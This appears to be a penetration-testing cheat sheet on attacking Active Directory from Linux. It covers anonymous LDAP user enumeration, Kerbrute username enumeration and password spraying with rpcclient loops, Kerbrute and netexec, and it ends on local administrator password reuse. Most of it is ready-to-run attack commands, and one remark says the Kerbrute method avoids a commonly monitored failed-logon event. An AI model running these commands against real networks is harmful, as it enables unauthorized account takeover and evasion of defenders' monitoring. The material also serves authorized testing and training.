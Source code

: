 ### Gathering Users with LDAP Anonymous

**Using ldapsearch**
````bash
$ ldapsearch -h <DC_IP> -x -b "DC=<domain>,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
````
**Using windapsearch**
````bash
$ ./windapsearch.py --dc-ip <DC_IP> -u "" -U
````

### Enumerating Users with Kerbrute

This tool uses Kerberos Pre-Authentication, which is a much faster and potentially stealthier way to perform password spraying. This method does not generate Windows event ID 4625: An account failed to log on, or a logon failure which is often monitored for. The tool sends TGT requests to the domain controller without Kerberos Pre-Authentication to perform username enumeration. If the KDC responds with the error PRINCIPAL UNKNOWN, the username is invalid. Whenever the KDC prompts for Kerberos Pre-Authentication, this signals that the username exists, and the tool will mark it as valid. 

````bash
$  kerbrute userenum -d <domain> --dc <DC_IP> /opt/jsmith.txt
````

## Internal Password Spraying - from Linux

Once we’ve created a wordlist using one of the methods shown in the previous section, it’s time to execute the attack. 

Rpcclient is an excellent option for performing this attack from Linux. 

**Using a Bash one-liner for the Attack**
````bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" <DC_IP> | grep Authority; done
````
**Using Kerbrute for the Attack**
````bash
$ kerbrute passwordspray -d <domain> --dc <DC_IP> valid_users.txt  Welcome1
````
**Using Netexec**
````bash
$ sudo nxc smb <DC_IP> -u valid_users.txt -p Password123 | grep +
$ sudo nxc smb <DC_IP> -u valid_users.txt -p Password123 --continue-on-success | grep +
````

### Local Administrator Password Reuse

Internal password spraying is not only possible with domain user accounts. If you obtain administrative access and the NTLM password hash or cleartext password for the local administrator account (or another privileged local account), this can be attempted across multiple hosts in the network. Local administrator account password reuse is widespread due to the use of gold images in automated deployments and the perceived ease of management by enforcing the same password across multiple hosts.
